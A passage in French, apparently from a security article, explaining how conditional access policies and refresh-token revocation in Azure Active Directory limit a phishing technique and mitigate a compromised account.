Le seul moyen efficace de prévenir le phishing à l'aide de cette technique est d'utiliser des politiques [**d'accès conditionnel**](https://docs.microsoft.com/en-us/azure/active-directory/conditional-access/overview) (CA). Plus précisément, le **phishing ne peut pas être empêché** à moins de renforcer la sensibilisation notamment sur cette partie , mais nous pouvons **empêcher les utilisateurs de se connecter** en fonction de certaines règles. Les politiques basées sur l'emplacement et l'état de l'appareil sont particulièrement efficaces pour protéger les comptes. Cela s'applique à toutes les techniques de phishing actuellement utilisées.

Il n'est cependant pas possible de couvrir tous les scénarios. Par exemple, forcer l'authentification multifacteur pour les connexions à partir d'emplacements illicites n'est d'aucune aide si l'utilisateur se connecte à l'aide de l'authentification multifacteur.

## **Atténuation**

Si l'utilisateur a été compromis, les jetons d'actualisation de l'utilisateur peuvent être [**révoqués**](https://docs.microsoft.com/en-us/powershell/module/azuread/revoke-azureaduserallrefreshtoken?view=azureadps-2.0) , ce qui empêche l'attaquant d'obtenir de nouveaux jetons d'accès avec le jeton d'actualisation compromis.
